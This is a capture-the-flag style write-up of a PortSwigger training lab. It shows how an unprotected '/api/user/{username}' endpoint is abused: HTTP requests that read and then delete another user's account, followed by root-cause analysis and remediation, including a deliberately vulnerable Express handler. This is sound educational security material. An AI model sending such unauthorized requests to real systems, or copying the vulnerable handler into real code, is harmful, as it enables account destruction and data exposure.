

# Lab 01: Exploiting an API Endpoint Using Documentation

## Challenge Info

- **Platform**: PortSwigger Web Security Academy
- **Category**: API Testing / Broken Access Control
- **Lab**: Exploiting an API endpoint using documentation
- **Difficulty**: Apprentice (Easy)
- **URL**: `https://*.web-security-academy.net`
- **Date Solved**: March 27, 2026

## Description

This lab exposes an undocumented API endpoint that allows user enumeration and deletion. The goal is to delete the user `carlos` to solve the challenge.

The application appears to be a standard user account management system, but hidden API endpoints provide dangerous functionality without proper access controls.

## Reconnaissance

### Step 1: Initial Assessment

Logged into the application with credentials:
- Username: `wiener`
- Email: `lawdenbhojyam@modi.com`

Standard account page with email update functionality. Nothing suspicious on the surface.

### Step 2: API Discovery

This is where things get interesting. I fired up Burp Suite and started exploring the application traffic. The key here is understanding that modern web apps often have API endpoints that aren't exposed in the UI.

Found references to API endpoints in the application's documentation or JavaScript files (common oversight by devs).

Discovered endpoint pattern: `/api/user/{username}`

## The Exploit

### Step 3: User Enumeration (GET Request)

First, I tested the API endpoint with a GET request to see if it leaks user information:

```http
GET /api/user/carlos HTTP/2
Host: 0a66004003213a95cbd20e93004c001f.web-security-academy.net
Cookie: session=8stX0C09T59apj03MhXaECKBIZnTPeUq
Content-Type: application/json
Accept: */*
```

**Response:**
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8

{
    "username": "carlos",
    "email": "carlos@carlos-montoya.net"
}
```

🎯 **Bingo!** The API endpoint returns user information without any authorization check. This is a classic **IDOR (Insecure Direct Object Reference)** vulnerability.

The endpoint is leaking sensitive user data — in this case, Carlos's email address. But more importantly, if it allows READ operations, it might allow WRITE/DELETE operations too.

### Step 4: Testing for Dangerous Methods

Time to see what HTTP methods this endpoint accepts. Changed the request to DELETE:

```http
DELETE /api/user/carlos HTTP/2
Host: 0a66004003213a95cbd20e93004c001f.web-security-academy.net
Cookie: session=8stX0C09T59apj03MhXaECKBIZnTPeUq
Content-Type: text/plain;charset=UTF-8
Accept: */*

{
    "email": "lawdenbhojyam@modi.com"
}
```

**Response:**
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8

{
    "status": "User deleted"
}
```

💀 **Game over.** The API endpoint accepts DELETE requests without any authorization verification. Any authenticated user can delete any other user account.

### Step 5: Verification

Refreshed the lab page and got the "Congratulations, you solved the lab!" message.

Carlos has been deleted from the system.

## Technical Analysis

### What Went Wrong?

This vulnerability is a combination of several security failures:

1. **Broken Object Level Authorization (BOLA/IDOR)**
   - The API endpoint `/api/user/{username}` accepts any username parameter
   - No verification that the requesting user has permission to access/modify that user
   - Classic OWASP API Security Top 10 vulnerability

2. **Undocumented/Hidden Endpoints**
   - API endpoints not exposed in UI but still accessible
   - Developers often forget to secure "internal" endpoints
   - Security through obscurity doesn't work

3. **Dangerous HTTP Methods Enabled**
   - DELETE method available without proper authorization
   - No confirmation step or additional verification
   - Should require admin privileges or at least self-only access

4. **Lack of Rate Limiting**
   - Could enumerate and delete users without any throttling
   - No account lockout or suspicious activity detection

### The Root Cause

Looking at the response headers and behavior, this appears to be a Node.js/Express backend (based on typical PortSwigger lab setups). The vulnerability likely stems from:

```javascript
// Vulnerable code pattern (example)
app.delete('/api/user/:username', (req, res) => {
    // ❌ No authorization check!
    db.deleteUser(req.params.username);
    res.json({ status: 'User deleted' });
});

// Should be:
app.delete('/api/user/:username', authenticate, authorize, (req, res) => {
    // ✅ Verify user is deleting their own account OR is admin
    if (req.user.username !== req.params.username && !req.user.isAdmin) {
        return res.status(403).json({ error: 'Forbidden' });
    }
    db.deleteUser(req.params.username);
    res.json({ status: 'User deleted' });
});
```

## Real-World Impact

I've seen similar issues in production APIs during penetration tests. The impact can be severe:

| Scenario | Impact |
|----------|--------|
| User Enumeration | Privacy violations, targeted attacks |
| Account Deletion | DoS, user frustration, reputation damage |
| Mass Deletion | If loopable, could wipe entire user base |
| Data Modification | Account takeover, privilege escalation |

In a real engagement, this would be reported as **High/Critical** severity depending on the data exposed and actions available.

## Remediation

### Immediate Fixes

1. **Implement Proper Authorization**
   ```javascript
   // Verify the user can only access/modify their own data
   if (req.user.id !== targetUserId) {
       return res.status(403).send('Forbidden');
   }
   ```

2. **Restrict HTTP Methods**
   - Only allow necessary methods (GET, POST, PUT, PATCH)
   - DELETE should require elevated privileges
   - Implement CSRF protection for state-changing operations

3. **Use Indirect References**
   - Instead of `/api/user/carlos`, use `/api/user/me` or UUID-based references
   - Don't expose predictable identifiers

### Long-term Improvements

1. **API Security Testing**
   - Regular penetration testing of all API endpoints
   - Automated scanning with tools like Burp Suite, OWASP ZAP

2. **API Gateway/WAF**
   - Rate limiting on all endpoints
   - Anomaly detection for suspicious patterns

3. **Logging & Monitoring**
   - Log all API access, especially DELETE operations
   - Alert on unusual patterns (bulk deletions, enumeration attempts)

4. **Security by Design**
   - Document all API endpoints
   - Security review before deployment
   - Principle of least privilege for all operations

## Tools Used

- **Burp Suite Professional** — Repeater tab for API manipulation
- **Chromium** — Browser for the lab
- **Brain** — The most important tool 🧠

## Lessons Learned

1. **Never trust the frontend** — Just because there's no UI button doesn't mean the endpoint doesn't exist

2. **API documentation is gold** — Leaked docs, JS files, or comments often reveal hidden endpoints

3. **Test all HTTP methods** — GET might be safe, but what about POST, PUT, PATCH, DELETE?

4. **Authorization on every endpoint** — Every single API endpoint needs proper auth checks. No exceptions.

5. **IDOR is everywhere** — If you see an ID/username parameter, test it with different values

## References

- [OWASP API Security Top 10](https://owasp.org/www-project-api-security/)
- [PortSwigger: Broken Access Control](https://portswigger.net/web-security/access-control)
- [OWASP: Insecure Direct Object Reference Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)

## Screenshots

### Figure 1: GET Request - User Enumeration

*Enumerating Carlos's user information via the undocumented API endpoint*

### Figure 2: DELETE Request - Account Deletion

*Successfully deleting Carlos's account with no authorization checks*

---

*Writeup by vibhxr | 2-3 years deep in pentesting, still learning every day*
